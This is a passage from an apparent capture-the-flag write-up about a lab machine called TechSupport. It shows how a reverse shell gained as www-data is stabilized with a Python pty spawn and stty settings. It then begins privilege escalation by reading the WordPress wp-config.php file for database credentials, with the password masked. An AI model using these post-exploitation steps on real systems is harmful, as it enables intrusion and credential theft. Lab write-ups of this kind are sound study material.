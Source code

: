 We have a shell as `www-data`. Now, let's stabilize it :  
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TechSupport:/var/www/html/wordpress$ export TERM=xterm
export TERM=xterm
```

After this, we can press `CTRL+Z` to background the reverse shell, and then type `stty -echo raw;fg`. Now our shell is fully stabilized.

## Privilege escalation (scamsite)

Now, it's time to escalate our privileges. Remember, there is a `scamsite` user we found using [enum4linux](https://github.com/CiscoCXSecurity/enum4linux). Also, there is a `wordpress` 
directory on the host. Let's see if we can find something useful in `/var/www/html/wordpress/wp-config.php` :  
```
www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', '*************' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
```